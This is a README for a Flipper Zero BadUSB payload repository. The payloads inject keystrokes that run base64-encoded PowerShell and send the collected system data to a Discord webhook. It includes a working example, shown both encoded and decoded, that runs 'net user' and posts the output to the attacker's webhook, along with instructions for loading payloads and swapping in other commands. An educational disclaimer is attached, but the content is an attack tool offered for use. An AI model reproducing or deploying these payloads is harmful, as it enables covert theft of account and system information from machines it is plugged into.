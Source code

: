 # Flipper-Zero-BadUSB
Flipper Zero BadUSB payloads for relaying data to a Discord webhook.

## About
This repository contains a collection of payloads for the Flipper Zero, USB Rubber Ducky, or similar devices adapted with a Discord webhook to receive the data.

The idea of run the PowerShell payload in base64 was inspired by the project from [InfoSecREDD](https://github.com/InfoSecREDD/REPG).

## Disclaimer
All these payloads are designed for educational, testing, and research purposes in cybersecurity.

I am not a professional in PowerShell scripting. I am using this project to learn about DuckyScripting and its capabilities with Flipper Zero. 

Feel free to fork and contribute to the community.

## Usage
To load these payloads onto your Flipper Zero, you should copy them into the SDcard's "`badusb`" folder.

The provided script `Hostname2Disc.txt` will send the response in plain text because it's not too long (hostname).

However, in the example `SysInfo2Disc.txt` we see how the response will be sent in base64-encoded and in multiple messages as it exceeds the character limit of the POST method message.

Here are some things to consider:
* The `REM` command does not perform any keystroke injection, is just a comment.
* In each payload, remember to replace "`webhookgoeshere`" with your webhook URL for the variable `$webhook`.
* The base64-encoded code generated from the `echo` command contains the compiled PowerShell script. This can also be replaced with other PowerShell commands.
* As shorter the powershell script is, shorter the base64 string will be and it will run faster in powershell.

### Example:
Below is an example of a PowerShell script encoded in base64 that executes the `net user` command:

Base64 code:
```
JGNvbW1hbmQgPSBuZXQgdXNlcgokYjY0b3V0cHV0ID0gW0NvbnZlcnRdOjpUb0Jhc2U2NFN0cmluZyhbU3lzdGVtLlRleHQuRW5jb2RpbmddOjpVVEY4LkdldEJ5dGVzKCRjb21tYW5kKSkKJGJvZHkgPSBAewogICAgY29udGVudCA9ICRiNjRvdXRwdXQKfSB8IENvbnZlcnRUby1Kc29uCkludm9rZS1SZXN0TWV0aG9kIC1VcmkgJHdlYmhvb2sgLU1ldGhvZCBQb3N0IC1Cb2R5ICRib2R5IC1Db250ZW50VHlwZSAiYXBwbGljYXRpb24vanNvbiI=
```
Base64 decoded:
```
$command = net user
$b64output = [Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes($command))
$body = @{
    content = $b64output
} | ConvertTo-Json
Invoke-RestMethod -Uri $webhook -Method Post -Body $body -ContentType "application/json"
```
In each PowerShell script, ensure to reference the variable `$webhook` for the request to be executed correctly.

## Links
You can use the following websites to encode and decode PowerShell scripts:
* Base64 Encode: https://www.base64encode.org/
* Base64 Decode: https://www.base64decode.org/
